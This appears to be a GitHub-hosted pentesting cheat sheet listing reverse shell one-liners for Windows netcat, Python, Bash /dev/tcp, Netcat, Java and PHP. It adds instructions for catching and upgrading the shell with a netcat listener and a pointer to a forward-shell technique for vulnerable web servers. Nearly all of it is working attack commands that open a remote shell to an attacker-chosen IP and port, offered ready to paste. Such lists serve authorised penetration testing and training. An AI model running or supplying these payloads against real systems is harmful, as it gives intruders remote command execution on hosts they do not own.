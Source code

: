 Reverse-Shell
=============

A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine

### Listen with NetCat

To listen for an incoming connection and upgrade to a pty shell:

```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

> On macOS use the `netcat` from [homebrew](https://formulae.brew.sh/formula/netcat)
> instead of the one provided by the OS


### Upgrade the shell

Then, `Ctrl-Z` to suspend the connection and return to your own terminal.
Type on your terminal:

```bash
stty raw -echo
```

The console should be black, next foreground the shell with:

```bash
fg
reset
```

On target host:

```bash
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 80
```

Now you should have a complete shell with shortcuts available.


## On the remote server

### Windows

Upload [`nc.exe`](https://eternallybored.org/misc/netcat/) on the remote server
then use the command (same as [NetCat](#netcat)):

```bash
cmd.exe /C "nc.exe {IP} {PORT} -e cmd.exe"
```


### PowerShell

This is explain in the [Windows / Download and execute script section](windows.md#download-and-execute-script).


### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

> To use the bash's built-in `/dev/tcp` device file the use must use `/bin/bash`
> as shell. Often it uses `sh` or `dash`, then you can use `bash -c "<cmd>"` to
> force the `bash`


### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
String[] cmd={"cmd","/C","<cmd>"};Runtime.getRuntime().exec(cmd);
```

> This payload can also work with `BeanShell` scripts.


### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```


## Forward shell

If the remote server cannot contact your local machine, it's still possible to
use a shell that accept commands from named pipes using `mkfifo` and send the
output to a file.

IppSec has a repository on Github with a simple but effective script to demonstrate
the technique on a vulnerable web server: [`forward-shell`](https://github.com/IppSec/forward-shell).
You need to set the vulnerable url (`self.url = r"http://'...`) and the exploit
arguments (`headers = {'User-Agent': payload}`). Remember that you can use the same
technique on other services that allow you to inject commands.
